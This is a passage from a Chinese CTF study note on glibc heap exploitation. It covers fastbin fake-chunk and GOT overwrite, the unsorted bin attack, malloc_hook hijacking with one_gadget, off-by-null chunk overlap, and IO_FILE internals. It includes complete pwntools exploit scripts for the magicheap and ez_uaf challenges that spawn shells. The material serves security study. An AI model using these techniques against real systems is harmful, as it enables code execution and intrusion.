pwndbg> x/20gx 0x6020e0
0x6020e0 <heaparray>:   0x00000000006032a0      0x0000000000000000
0x6020f0 <heaparray+16>:        0x0000000000000000      0x0000000000000000
0x602100 <heaparray+32>:        0x0000000000000000      0x0000000000000000
0x602110 <heaparray+48>:        0x0000000000000000      0x0000000000000000
0x602120 <heaparray+64>:        0x0000000000000000      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000000
0x602140:       0x0000000000000000      0x0000000000000000
0x602150:       0x0000000000000000      0x0000000000000000
0x602160:       0x0000000000000000      0x0000000000000000
0x602170:       0x0000000000000000      0x0000000000000000
```

这里要用到伪装堆块的知识
glibc 的 chunk 头在 64 位是：

```c
struct malloc_chunk {
  size_t prev_size;  // 仅当前一个块空闲时使用
  size_t size;       // 低3bit是标志位，其他是对齐后的大小
  // ......（接下来才是用户区）
}
```

也就是：chunk header 起点 + 0x8 正好是 size 字段。

伪装堆块的必要条件如下

1. 头部布局正确且对齐

- 你放置的 fake header 必须是 16 字节对齐（x64），结构是 [prev_size][size]
- 你能控制到 size 字段（P_fake+0x8），写入一个对齐后的大小（size & ~0x7）满足 glibc 的最小块要求：
- MINSIZE（x64 通常是 0x20）
- 且 16 字节对齐：(size & ~0x7) % 0x10 == 0

2. 标志位正确

- size 低 3 位是标志，至少要让 PREV_INUSE=1（避免向前合并检查）。
- 不要随意置 IS_MMAPPED（0x2）或 NON_MAIN_ARENA（0x4），否则可能走到不符合条件的分支或触发检查失败。
- 实战里常用 size = 0x70 | 1 = 0x71，或其它落在 fastbin/tcache 桶范围内的“对齐大小 + 1”

3. 大小落在可回收/可分配的桶范围

- 目标通常是 fastbin/tcache 尺寸（比如对齐后 0x20~0x80 等级），这样检查最宽松，释放/分配路径简单。

4. fake chunk 的“下一块”不要触发合并

- 把 PREV_INUSE=1 置上，可以避免 free() 合并到“前一块”的复杂检查。
- 如果有机会，也可以在“伪造块的后面”再放一个看起来“正常的 next chunk size”，以免向后合并时崩。许多题里因为只需进 tcache/fastbin，不会走到 unlink/合并，就不严格要求 fd/bk 等字段。

这里heaparray起始位置无法满足条件，所以我们向前查看，发现在0x6020e0 - 0x40有以下内容

```bash
pwndbg> x/20gx 0x6020e0 - 0x40
0x6020a0 <stdout@@GLIBC_2.2.5>: 0x00007ffff7f975c0      0x0000000000000000
0x6020b0 <stdin@@GLIBC_2.2.5>:  0x00007ffff7f968e0      0x0000000000000000
0x6020c0 <magic>:       0x0000000000000000      0x0000000000000000
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0 <heaparray>:   0x00000000006032a0      0x0000000000000000
0x6020f0 <heaparray+16>:        0x0000000000000000      0x0000000000000000
0x602100 <heaparray+32>:        0x0000000000000000      0x0000000000000000
0x602110 <heaparray+48>:        0x0000000000000000      0x0000000000000000
0x602120 <heaparray+64>:        0x0000000000000000      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000000
```

内存是小端序，所以7f实际上在最末尾，所以可以算出，7f在b5的位置，要使得7f的位置符合chunk的位置，就得使得7f落在第二列的最后。

7f所在的位置是b5，落在最后-7就是开头，所以我们要看的位置应该是ad，ad为b0-3,查看 0x6020e0 - 0x33的内容

```bash
pwndbg> x/20gx 0x6020e0 - 0x33
0x6020ad:       0xfff7f968e0000000      0x000000000000007f
0x6020bd:       0x0000000000000000      0x0000000000000000
0x6020cd:       0x0000000000000000      0x0000000000000000
0x6020dd:       0x00006032a0000000      0x0000000000000000
0x6020ed <heaparray+13>:        0x0000000000000000      0x0000000000000000
0x6020fd <heaparray+29>:        0x0000000000000000      0x0000000000000000
0x60210d <heaparray+45>:        0x0000000000000000      0x0000000000000000
0x60211d <heaparray+61>:        0x0000000000000000      0x0000000000000000
0x60212d <heaparray+77>:        0x0000000000000000      0x0000000000000000
0x60213d:       0x0000000000000000      0x0000000000000000
```

和预想的一样，偏移-0x33时，刚好伪装成了大小是0x7f的堆块，找到可以伪装成堆块的位置后，开始进行attack bin

回顾一下chunk的结构

P + 0x00 ┌──────────────────────────────┐
         │ prev_size (8B)               │  // 仅当前一块空闲时有用
P + 0x08 ├──────────────────────────────┤
         │ size (8B)                    │  // 低3bit是标志(PREV_INUSE等)
P + 0x10 ├──────────────────────────────┤  ← 用户指针 U（malloc 返回这里）
         │ user data ...                │
         │                              │
         │           （对齐填充）        │
         └──────────────────────────────┘

在chunk被free后，fastbin中只需 fd 指针，结构如下

P + 0x00 ┌──────────────────────────────┐
         │ prev_size (8B)               │  // 仅当前一块空闲时才有效
P + 0x08 ├──────────────────────────────┤
         │ size (8B)                    │  // 低3bit标志位: PREV_INUSE(1)等
P + 0x10 ├──────────────────────────────┤  ← 用户指针 U（malloc 返回这里）
         │ fd (8B)                      │
    │ ...（其余字节未定义）          │  // forward 指向下一个 fastbin 块
         └──────────────────────────────┘

所以我们free2后，将2被放入了fastbin，此时heap的结构如下

```bash
pwndbg> x/64wg  0x603290
0x603290:       0x0000000000000000      0x0000000000000071
0x6032a0:       0x6161616161616161      0x000000000000000a
0x6032b0:       0x0000000000000000      0x0000000000000000
0x6032c0:       0x0000000000000000      0x0000000000000000
0x6032d0:       0x0000000000000000      0x0000000000000000
0x6032e0:       0x0000000000000000      0x0000000000000000
0x6032f0:       0x0000000000000000      0x0000000000000000
0x603300:       0x0000000000000000      0x0000000000000071
0x603310:       0x6161616161616161      0x000000000000000a
0x603320:       0x0000000000000000      0x0000000000000000
0x603330:       0x0000000000000000      0x0000000000000000
0x603340:       0x0000000000000000      0x0000000000000000
0x603350:       0x0000000000000000      0x0000000000000000
0x603360:       0x0000000000000000      0x0000000000000000
0x603370:       0x0000000000000000      0x0000000000000071
0x603380:       0x0000000000000603      0xefe4189d1675743c
0x603390:       0x0000000000000000      0x0000000000000000
0x6033a0:       0x0000000000000000      0x0000000000000000
0x6033b0:       0x0000000000000000      0x0000000000000000
0x6033c0:       0x0000000000000000      0x0000000000000000
0x6033d0:       0x0000000000000000      0x0000000000000000
0x6033e0:       0x0000000000000000      0x0000000000020c21
0x6033f0:       0x0000000000000000      0x0000000000000000
0x603400:       0x0000000000000000      0x0000000000000000
0x603410:       0x0000000000000000      0x0000000000000000
0x603420:       0x0000000000000000      0x0000000000000000
0x603430:       0x0000000000000000      0x0000000000000000
0x603440:       0x0000000000000000      0x0000000000000000
0x603450:       0x0000000000000000      0x0000000000000000
0x603460:       0x0000000000000000      0x0000000000000000
0x603470:       0x0000000000000000      0x0000000000000000
0x603480:       0x0000000000000000      0x0000000000000000
```

可以看到2的fd位置是距离1可写入的位置偏移量为0x70，即一个堆块的大小，所以我们要先把/bin/sh写入chunk1的usr data中，之后填充到size位置，在size位置写上chunk2的大小，之后将chunk2的fd改为我们将要构造fake chunk的位置

```python
free(2) 
#释放到fastbin，进行fastbin attack，具体方式是修改fd为heap指针附近的地址
edit(1,b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad))
#在heap1写binsh，0x6020ad是修改fd为刚才定位到的fake heap
```

申请到数组之后，把heap0的地址改为free的got表的地址

```python
add(0x68,b'6')#把2恢复回来
add(0x68,b'6')#创建fake heap，实际上是heap指针数组前面0x33

edit(3,b'\x00'*0x23+p64(elf.got['free']))#覆盖heap0为free的got表
```

这里是0x23是因为前面有0x10用来存堆头了。

编辑heap0，此时实际上已经被移花接木为free的got表。我们将free的got表改为system的plt表。

edit(0,p64(elf.plt['system']))#覆盖free的got为system的plt

最后执行free(1)，实际上就是执行system('/bin/sh')，提权成功

尝试了一下覆盖magic，结果如下


### Unsortbin attack

Unsorted Bin Attack，顾名思义，该攻击与 Glibc 堆管理中的的 Unsorted Bin 的机制紧密相关。Unsorted Bin Attack 被利用的前提是控制 Unsorted Bin Chunk 的 bk 指针。从而达到实现修改任意地址值为一个较大的数值。

#### 什么是Unsorted Bin

Unsorted bin 本质上是一个**双向循环链表**。

它有**一个头结点**，这个头结点不是普通用户 chunk，而是 arena 里的一个“伪 chunk / 哨兵节点”。

可以记成

- unsorted_chunks(av)：unsorted bin 的头结点
- fd：forward，前向指针
- bk：backward，后向指针

对于 unsorted bin：

- unsorted_chunks(av)->fd 指向链表第一个 chunk
- unsorted_chunks(av)->bk 指向链表最后一个 chunk

而在 _int_malloc 里，常见逻辑是从：

```c
victim = unsorted_chunks(av)->bk;
```

也就是从尾部取一个 chunk 来处理。

来源

1. 当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
2. 释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。
3. 当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

值得注意的是，这些来源都是老的glibc的方法，新的glibc引入了tcache这个机制，当chunk的request size不超过1032时，这个chunk被free时都会先放入tcache中，tchache默认最大是7，也就是说最多缓存7个同样大小的chunk，之后再出现同样大小的chunk会按照老libc版本的走，就是看大小，0x80以下的给fastbin，

如何使用

1. Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO，即插入的时候插入到 unsorted bin 的头部，取出的时候从链表尾获取。不一定，也可能是LIFO
2. 在程序 malloc 时，如果在 fastbin，small bin 中找不到对应大小的 chunk，就会尝试从 Unsorted Bin 中寻找 chunk。如果取出来的 chunk 大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的 bin 中。

#### Unsorted Bin Attack原理

在 glibc/malloc/malloc.c 中的 _int_malloc 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 bck->fd 的位置写入Unsorted Bin 的头指针的位置的值。

```c
/* remove from unsorted list */
if (__glibc_unlikely (bck->fd != victim))
 malloc_printerr ("malloc(): corrupted unsorted chunks 3");
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

**unsorted_chunks(av)**

这是一个宏，表示：

> 当前 arena 中的 unsorted bin 头结点

它不是普通 malloc 给用户的 chunk，而是 bin 的哨兵头。

可以把它想象成一个“假 chunk”，专门拿来挂链表。

**victim**

victim 是当前正在被 _int_malloc 检查、准备使用或处理的那个 chunk。

在 unsorted bin 处理里，victim 往往就是：

unsorted bin 尾部的那个 chunk

当前准备从 unsorted 中取下来检查是否可用于本次 malloc 的 chunk

**bck**

bck 是 victim->bk，也就是：

> victim 在双向链表里的前一个节点

名字是 back / backward 的缩写。

**fd**

fd = forward pointer，前向指针
表示链表中“下一个”节点。

**bk**

bk = backward pointer，后向指针
表示链表中“前一个”节点。

假设当前 unsorted bin 长这样:

```text
H <-> ... <-> bck <-> victim <-> H
```

这里：

- H = unsorted_chunks(av)，头结点
- victim 是尾部 chunk
- bck 是 victim 的前一个 chunk

因为这是循环双向链表，所以尾节点 victim 的 fd 正常应该指回 H。

也就是

```c
bck->fd == victim
victim->bk == bck
victim->fd == H
H->bk == victim
```

现在要把 victim 从链表中删掉。

```text
H <-> ... <-> bck <-> H

# unsorted_chunks (av)->bk = bck;
# bck->fd = unsorted_chunks (av);
```

##### 那为什么这会导致 Unsorted Bin Attack？

关键点在于bck = victim->bk，如果攻击者能篡改 victim->bk，那么 bck 就不再是真正的前驱节点，而是攻击者伪造的地址。

接下来代码会执行bck->fd = unsorted_chunks(av);  这就变成：往攻击者指定的地址偏移处，写入 unsorted_chunks(av) 这个值。

前面还有一句检查

```c
if (bck->fd != victim) ...
```

所以攻击者不能随便乱填 bck，还必须让：

```
*(bck + fd_offset) == victim
```

成立，才能通过检查。

也就是说，攻击者通常要做到：

1. 伪造 victim->bk = fake_bck
2. 让 fake_bck->fd 这个位置事先等于 victim(这个不一定，得看题目libc版本有无检查)
3. 这样检查通过
4. 然后 glibc 执行：

举个例子来说，我们要修改magic中储存的内容，那修改的unsortbin中chunk的bk为magic-0x10，此时伪造出来的 bck 这个 fake chunk，它的 fd 字段所在地址，恰好落在 magic 这个地址上。，之后再次分配chunk后，magic储存的东西就会是unsorted_chunks(av)的值

##### Unsorted Bin Attack用法

任意地址写入一个 arena/bin 相关指针值，主要有这几种用处：

1. 把某个小阈值改成超大值，打穿限制
2. 把某个标志位从 0 改成非零，改变程序逻辑
3. 把某个字段改成一个“看起来合法的指针”，引出后续读写或泄漏
4. 作为中间跳板，把较弱利用原语升级成更强的任意读写/控制流劫持
5. 顺带帮助定位 libc / arena 相关地址

#### buuctf hitcontraining_magicheap

查看ida


将magic改到0x1305以上就可以触发漏洞函数得到shell，将一个地址改成很大的值，可以想到unsortbin attack



edit_heap没有限制读入的大小，所以可以堆溢出

所以只需要创建三个chunk，将中间那个chunk free进入unsortbin，用第一个chunk溢出修改中间chunk的bk为magic-0x10，就可以修改magic的值即可，payload如下

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
r = process('./magicheap')
#r = remote('node5.buuoj.cn', 28586)
def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)
def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)
def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
# in order not to merge into top chunk
create_heap(0x20, "dada")  # 2
del_heap(1)
magic = 0x6020a0
fd = 0
bk = magic - 0x10
edit_heap(0, 0x20 + 0x20, b"a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, "dada")  #trigger unsorted bin attack
r.recvuntil(":")
r.sendline("4869")
r.interactive()
```

值得注意的是，这道题是老题，用的glibc是没有检查bck->fd的值是不是victim的，所以能够使用。

### malloc hook

malloc_hook 函数是GNU C库（glibc）中的一个特殊函数，它可以被用来重写 malloc()、realloc()、free() 等内存管理函数的实现，从而对程序的内存分配和释放过程进行自定义的控制和监测。

通过设置 malloc_hook 函数指针，我们可以在程序调用 malloc()、realloc() 等函数时，先执行我们自定义的一些操作或者根据一些条件来决定是否执行标准的内存分配/释放操作，比如检测内存泄漏、记录内存分配/释放信息等等。同时，还可以将自定义的实现与标准的内存管理函数结合起来，实现更加灵活的内存管理策略。
在每次调用malloc和realloc，free之前，都会先调用malloc_hook，从而达到检测和自定义函数的目的。

```
typedef void *(*__malloc_hook)(size_t size, const void *caller);
```

其中，第一个参数 size 表示要分配的内存大小，第二个参数 caller 是调用动态内存分配函数的函数的返回地址。也就是“谁调用了我”。malloc_hook 函数指针所指向的函数必须返回一个指向分配到的内存块的指针，如果返回 NULL，则表示内存分配失败。

那么一旦我们修改了malloc_hook函数指针，我们就可以在下次malloc或者realloc，free之类的时候执行到我们需要执行的地址（如调用system，gadget之类），至此漏洞利用完成。

实际上，这种思路也会用于got表劫持、UAF之类的漏洞，即修改相关调用函数的地址，达成劫持程序流的目的。也不只是fastbin attack，下文的UAF和Tcache attack（也许算是一种）也是类似的原理。

假设在使用one_gadget的时候满足one_gadget的调用条件，当overwrite malloc_hook和free_hook的时候，便可以getshell，执行malloc的时候，其参数是size大小，所以overwrite malloc_hook的时候使用one_gadget的地址可以getshell。执行free的时候，可以将__free_hook的值overwrite为system的地址，通过释放(/bin/sh\x00)的chunk，可以达到system(/bin/sh)来getshell

简单来说，malloc_hook是malloc的钩子函数，在执行malloc时，会先检测__malloc_hook的值，如果malloc_hook的值存在，**则执行该地址**（值里边表现为十六进制，可以成为地址），也就是说，如果我们成功劫持malloc_hook以后并修改它的值为one_gadget，我们就能getshell
并且在加入tcache之后，不会对大小进行检测，使我们更好利用它

#### 利用范围

**版本:Ubuntu18（加入了tcache，无需伪造size）--Ubuntu20.04**
因为 **22.04删去了几乎所有的钩子函数** ，使得劫持hook成为了不可能，所以它的试用范围仅限于20.04之前，在未来应该会销声匿迹

它在学堆之后估计就是我们的老朋友的，我们 **常常能在堆题里看见并利用它** ，与**free_hook和relloc_hook**简直是三兄弟

#### 利用思路

**修改chunk->fd指向malloc_hook** ，然后把malloc_hook申请出来 **成为fake_chunk** ，再 **修改fake_chunk的值为one_gadget** 。修改完毕后记得 **校准one_gadget** ，有可能无法生效，毕竟可能不满足one_gadget的生效条件

#### 例题 [HNCTF_2022_WEEK4]ez_uaf

还是菜单题，查看各个函数

从add函数可以得到heaplist的大概样子

add：heaplist存的是一个chunk的指针，这个chunk有0x30的大小，chunk的内容，前十六位存放的是name，第三个八位是指向存储用户内容 的指针，第四个八位前四位存放用户chunk的大小，后四个存放是否有用户chunk存在。

edit:向用户chunk读入数据

delete:free了用户chunk但是没制空指针，且先free name，再free 内容


show: 先打印名字，再打印内容。

先申请个0x400的堆块并free掉，使其进入unsorted bin，因为其中只有一个元素，指向自己，会泄露出unsorted_chunks(&main_arena)，unsorted_chunks(&main_arena)和main_arena的偏移为0x60，所以就能泄露出main_arena的地址，知道了main_arena的地址就能算出malloc_hook的位置和libc的基址

得到libc基质后，可以再题目给的libc-2.27.so中搜寻可以用的one_gadget

```bash

one_gadget libc-2.27.so
0x4f29e execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
                                                           
```

因为这题是有tcahcebin的，tcachebin的指针指向的是chunk的内容区，所以

再申请一个大小为0x20的堆块，将其释放后，将fd改写为malloc_hook的位置，之后再去请求一个大小不为20，和一个大小为20的堆块，这样编辑第二次请求的大小为20的堆块就是直接再编辑malloc_hook了

将malloc_hook的值改为one_gadget的地址，随后再申请一次就可以得到shell

payload如下

```python
from pwn import *

context(os = 'linux', arch = 'amd64',log_level='debug')
pwnfile = './ez_uaf'
# p = process(pwnfile)
p = remote('node5.anna.nssctf.cn',26571)
elf = ELF(pwnfile)
libc = ELF('./libc-2.27.so')

def debug():
	gdb.attach(p)
	pause()
def add(size, name, content):
	p.sendlineafter(b'Choice: \n', '1')
	p.sendlineafter(b'Size:\n', str(size))
	p.sendafter(b'Name: \n', name)
	p.sendafter(b'Content:\n', content)
def free(index):
	p.sendlineafter(b'Choice: \n', '2')
	p.sendlineafter(b'idx:\n', str(index))
def show(index):
	p.sendlineafter(b'Choice: \n', '3')
	p.sendlineafter(b'idx:\n', str(index))
def edit(index, content):
	p.sendlineafter(b'Choice: \n', '4')
	p.sendlineafter(b'idx:\n', str(index))
	p.send(content)

# leak libcbase
add(0x410, b'1', b'a') #index 0
add(0x20, b'1', b'a') #index 1
add(0x10, b'1', b'a') #index 2
free(0)
show(0)
libcbase = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 96 - 0x10 - libc.sym['__malloc_hook']
print(' libcbase -> ', hex(libcbase))

# malloc_hook -> one_gadget
one_gadget = libcbase + 0x10a2fc
malloc_hook = libcbase + libc.sym['__malloc_hook']
free(1)
edit(1, p64(malloc_hook))
add(0x10, b'1', b'a') #index 3
add(0x20, b'1', b'a') #index 4
edit(4, p64(one_gadget))

# pwn
p.sendlineafter(b'Choice: \n', '1')
p.sendlineafter(b'Size:\n', b'10')
p.interactive()
```

## off by null

off by null漏洞，顾名思义就是溢出了一个空字节，核心是让其堆块的prev inuse位溢出为0，从而认为它的低地址堆块处于了free状态，然后加以利用。

首先我们要用到四个chunk（我们只利用三个chunk，高地址的那个chunk是防止和top chunk合并的）

```c
chunk 0#left_free_chunk
chunk 1#overflow chunk&&spy chunk
chunk 2#victim_chunk
chunk 3#guard_chunk。
```

1. 申请四个相邻 chunk：
   left_free_chunk / overflow_chunk / victim_chunk / guard_chunk。

   其中，left_free_chunk 与 victim_chunk 需要保证在释放后能够进入正常的合并路径，
   不能被 tcache 或 fastbin 截留；guard_chunk 的作用是避免 victim_chunk 在错误合并时
   直接与 top chunk 相邻并被吞入 top，破坏布局。
2. 先释放 left_free_chunk，使其成为后续 backward consolidation 的伪造目标。
3. 利用 overflow_chunk 的越界写，破坏 victim_chunk 的头部元数据：
   一方面清除其 prev_inuse 标志，另一方面伪造其 prev_size，
   使 allocator 在释放 victim_chunk 时会错误地将前一个 chunk 解释为 left_free_chunk。
4. 当 victim_chunk 被释放时，allocator 会基于被伪造的 prev_size 执行错误的 backward consolidation，
   从而把 left_free_chunk 与 victim_chunk 视为一个连续的大 free chunk。
   但这片“被认为空闲”的区间中，实际上仍然夹着一个尚未释放的 overflow_chunk。
5. 此后如果再次从该伪造的大 free 区间中分配内存，
   新返回的 chunk 就可能与仍然存活的 overflow_chunk 指向同一物理区域，
   从而形成 overlapping chunks。

一般构成重叠的模板如下

```python
create(0x28)  #0 30
create(0x528) #1 530
create(0xf8)  #2
create(0x28)  #3

delete(0)
edit(1,b'A'*0x520+p64(0x560))
delete(2)

create(0x38) #0 40
create(0x610)#2 
```

# IO_FILE

随着 glibc 版本的更新，代码和数据已经呈现了严格分离的趋势，可读可写可执行的历史遗留问题会逐渐退出历史舞台，因此大家的目光就转向了其他的后利用链。其中 FILE 结构体虽然不是唯一的，但却是使用最多。

## FILE

我们平时往输入输出读写数据的时候，也许是直接使用 glibc 对系统调用的浅封装 open、read、write，但更多时候也使用 fopen、fread、printf 等，而后者大多是 POSIX 标准的 IO 函数。这些函数主要围绕 FILE 结构体而操作，由 fopen 返回，也就是常说的 _IO_FILE:

简单来说，平时写

```c
printf("hello");
fopen("a.txt", "r");
fread(...);
fwrite(...);
```

这些“标准 IO”函数，底层并不是直接每次都硬调 read/write 系统调用。它们会先维护一个用户态的“文件对象”，里面记录
这个文件现在读到哪了，写到哪了，缓冲区在哪，文件描述符是多少，这个文件怎么处理读写，刷新，关闭

这个用户态的文件对象就是FILE

而在 glibc 里，FILE 实际对应的底层结构体，就是

```bash
typedef struct _IO_FILE FILE;
```

也就是说： FILE 本质上就是一个“文件流控制块”，像一个小秘书，帮你记住这个流的各种状态。

该结构体的定义如下

```c
struct _IO_FILE {
  int _flags;                /* 高位是 _IO_MAGIC，剩下的是标志位 */
  char *_IO_read_ptr;        /* 当前读指针 */
  char *_IO_read_end;        /* get 区域结束位置 */
  char *_IO_read_base;       /* putback+get 区域起始位置 */
  char *_IO_write_base;      /* put 区域起始位置 */
  char *_IO_write_ptr;       /* 当前写指针 */
  char *_IO_write_end;       /* put 区域结束位置 */
  char *_IO_buf_base;        /* 预留区域起始位置 */
  char *_IO_buf_end;         /* 预留区域结束位置 */
  char *_IO_save_base;       /* 非当前 get 区域起始指针 */
  char *_IO_backup_base;     /* backup 区域第一个有效字符指针 */
  char *_IO_save_end;        /* 非当前 get 区域结束指针 */
  struct _IO_marker *_markers; /* 标记链表 */
  struct _IO_FILE *_chain;     /* 文件链表 */
  int _fileno;                 /* 文件描述符 */
  // ...
};

// 下面是一个gdb中的实例
pwndbg> p/x*(struct _IO_FILE_plus*)_IO_list_all
$1 = {
  file = {
    _flags = 0xfbad2086,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dd2620, // 指向下一个链表节点(stderr的下一个:stdout)
    _fileno = 0x2, // fileno值为2(标准错误流的文件描述符就是'2')
    _flags2 = 0x0,
    _old_offset = 0xffffffffffffffff,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = {0x0},
    _lock = 0x7ffff7dd3770,
    _offset = 0xffffffffffffffff,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dd1660,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0x0,
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7ffff7dd06e0
}
```

这些指针本质上是在描述：缓冲区现在用了多少，以及现在还剩多少

假设从文件里先读了一坨数据到缓冲区：

```text
[ base ........ end ]
      ^
    ptr

# _IO_read_base：这块读缓冲区的起点

# _IO_read_end：这块读缓冲区里有效数据的终点

# _IO_read_ptr：你现在读到哪了

比如缓冲区里有 "abcdef"，你已经读了 "ab"，那：

base 指向 'a'
ptr 指向 'c'
end 指向 'f' 后面
```

写相关指针和读相关指针相同

可以简单理解为：glibc 先把你要输出的东西攒在缓冲区里，等合适的时候再真正 write 到内核，而这些字段就是为了记住东西攒到哪里了

作为一个管理 IO 流缓冲的数据结构，需要保存当前用户写入的内存，包括已经读出和写入的大小和剩余数量等，这些位置使用指针表示；当然也包括系统调用所需的文件句柄 _fileno；另外 _flags 用于指定当前文件流的属性，比如是否可读可写等。

虽然我们平时也会使用 fopen 打开并读写文件，但更多的情况下并没有显式操作 FILE，而是使用了标准库中定义的 stdin、stdout 和 stderr 宏去进行读写标准输入输出。这些值其实也是 FILE 指针:

```c
extern struct _IO_FILE_plus _IO_2_1_stdin_;   // glibc 中标准输入对应的底层 FILE 对象
extern struct _IO_FILE_plus _IO_2_1_stdout_;  // glibc 中标准输出对应的底层 FILE 对象
extern struct _IO_FILE_plus _IO_2_1_stderr_;  // glibc 中标准错误对应的底层 FILE 对象（通常也会有）

FILE *stdin  = (FILE *)&_IO_2_1_stdin_;       // 将底层对象地址转换为 FILE*，供标准输入使用
FILE *stdout = (FILE *)&_IO_2_1_stdout_;      // 将底层对象地址转换为 FILE*，供标准输出使用
FILE *stderr = (FILE *)&_IO_2_1_stderr_;      // 将底层对象地址转换为 FILE*，供标准错误使用
// ...
```

这里的_IO_FILE_plus相当于_IO_FILE + 一个虚函数表指针

为什么要多这个vtable呢，不同类型的文件流，处理方式可能不同，例如普通文件，标准输出，内存流，宽字符流，管道，socket以及其他特殊IO对象，虽然它们都能读写，但是底层行为不一定一样

所以 glibc 用了一个很经典的 C 风格“伪面向对象”技巧：结构体前面放相同的公共数据（_IO_FILE），后面放一个函数表指针(vtable),这样同样的“调用接口”可以对应不同实现。

该结构第一个元素包含的也是 FILE，因此可以进行强制类型转换。但末尾还多了个指针，用于在 C 语言中实现面向对象(多态)调用，这个指针就作为虚函数表。该虚表的定义如下:

```c
#define JUMP_FIELD(TYPE, NAME) TYPE NAME

struct _IO_jump_t {
    JUMP_FIELD(size_t, __dummy);           // 占位字段
    JUMP_FIELD(size_t, __dummy2);          // 占位字段
    JUMP_FIELD(_IO_finish_t, __finish);    // 文件流结束处理函数指针
    JUMP_FIELD(_IO_overflow_t, __overflow);// 溢出处理函数指针
    JUMP_FIELD(_IO_underflow_t, __underflow);// 下溢处理函数指针
    JUMP_FIELD(_IO_underflow_t, __uflow);  // 下溢处理函数指针
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);// putback失败处理函数指针
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);    // 批量写入函数指针
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);    // 批量读取函数指针
    JUMP_FIELD(_IO_seekoff_t, __seekoff);  // 偏移定位函数指针
    JUMP_FIELD(_IO_seekpos_t, __seekpos);  // 位置定位函数指针
    JUMP_FIELD(_IO_setbuf_t, __setbuf);    // 设置缓冲区函数指针
    JUMP_FIELD(_IO_sync_t, __sync);        // 同步函数指针
    JUMP_FIELD(_IO_doallocate_t, __doallocate);// 分配函数指针
    JUMP_FIELD(_IO_read_t, __read);        // 读函数指针
    JUMP_FIELD(_IO_write_t, __write);      // 写函数指针
    JUMP_FIELD(_IO_seek_t, __seek);        // 定位函数指针
    JUMP_FIELD(_IO_close_t, __close);      // 关闭函数指针
    JUMP_FIELD(_IO_stat_t, __stat);        // 状态函数指针
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);// 显示字符数函数指针
    JUMP_FIELD(_IO_imbue_t, __imbue);      // 地区设置函数指针
};
```

vtable可以理解为，对于传入进来的文件流的方法表，里面放的都是一堆函数指针，比如：__read，__write，__close，__overflow，__underflow，__xsputn，__xsgetn。

```c
typedef ssize_t (*_IO_read_t) (FILE *fp, void *buf, ssize_t size);   // 读操作函数指针，fp为文件指针，buf为缓冲区，size为读取字节数
typedef ssize_t (*_IO_write_t) (FILE *fp, const void *buf, ssize_t size); // 写操作函数指针，fp为文件指针，buf为缓冲区，size为写入字节数
```

等于告诉 glibc：“如果要对这个流执行某种操作，该调用哪个函数”

举个例子来说，如果你要往某个 FILE 里写数据，glibc 最后可能会去调用虚表里的某个写函数，比如：_IO_write_t __write;这个函数指针告诉程序：“这个文件对象应该怎么完成写操作”

所以，总结一句话

_IO_FILE 是一个结构体，用来描述一个文件流的状态。它记录了缓冲区的位置、读写指针、当前读写进度、文件描述符以及一些标志位等信息。`

而 _IO_FILE_plus则是在_IO_FILE的基础上，额外加了一个虚表指针。前面的_IO_FILE 部分负责保存文件流的数据状态，后面的虚表指针则负责告诉程序，当需要对这个文件流执行读、写、关闭等操作时，应该调用哪一组函数。

## 标准IO

关于标准输入输出的定义，如下所示:

```c
#define DEF_STDFILE(NAME, FD, CHAIN, FLAGS) \
    static _IO_lock_t _IO_stdfile_##FD##_lock = _IO_lock_initializer; /* 标准流的锁对象 */ \
